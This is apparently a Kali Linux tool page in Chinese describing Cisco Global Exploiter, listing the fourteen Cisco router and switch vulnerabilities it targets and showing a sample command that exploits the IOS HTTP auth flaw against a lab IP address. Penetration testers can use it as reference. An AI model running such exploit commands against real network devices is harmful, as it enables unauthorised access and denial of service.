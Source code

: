# cisco-global-exploiter介绍

Cisco Global Exploiter (CGE), 一个高级、简单和快速的安全测试工具。

[cisco-global-exploiter主页](http://www.blackangels.it/) | [Kali cisco-global-exploiter地址](http://git.kali.org/gitweb/?p=packages/cisco-global-exploiter.git;a=summary)

作者: Nemesis, E4m

协议: GPLv2
 
# cisco-global-exploiter拥有的工具

cge.pl – Simple and fast security testing tool

>root@kali:~# cge.pl
>
>Usage :
>
>perl cge.pl <target> <vulnerability number>
>
>Vulnerabilities list 
>
>[1] - Cisco 677/678 Telnet Buffer Overflow Vulnerability
>
>[2] - Cisco IOS Router Denial of Service Vulnerability
>
>[3] - Cisco IOS HTTP Auth Vulnerability
>
>[4] - Cisco IOS HTTP Configuration Arbitrary
>
>Administrative Access Vulnerability
>
>[5] - Cisco Catalyst SSH Protocol Mismatch Denial of Service Vulnerability
>
>[6] - Cisco 675 Web Administration Denial of Service Vulnerability
>
>[7] - Cisco Catalyst 3500 XL Remote Arbitrary Command Vulnerability
>
>[8] - Cisco IOS Software HTTP Request Denial of Service Vulnerability
>
>[9] - Cisco 514 UDP Flood Denial of Service Vulnerability
>
>[10] - CiscoSecure ACS for Windows NT Server Denial of Service Vulnerability
>
>[11] - Cisco Catalyst Memory Leak Vulnerability
>
>[12] - Cisco CatOS CiscoView HTTP Server Buffer Overflow Vulnerability
>
>[13] - 0 Encoding IDS Bypass Vulnerability (UTF)
>
>[14] - Cisco IOS HTTP Denial of Service Vulnerability
 
# cisco-global-exploiter使用范例
 
使用思科IOS HTTP验证漏洞(3)攻击目标机器(192.168.99.230):

>root@kali:~# cge.pl 192.168.99.230 3
>
>Vulnerability successful exploited with [http://192.168.99.230/level/17/exec/....] ...
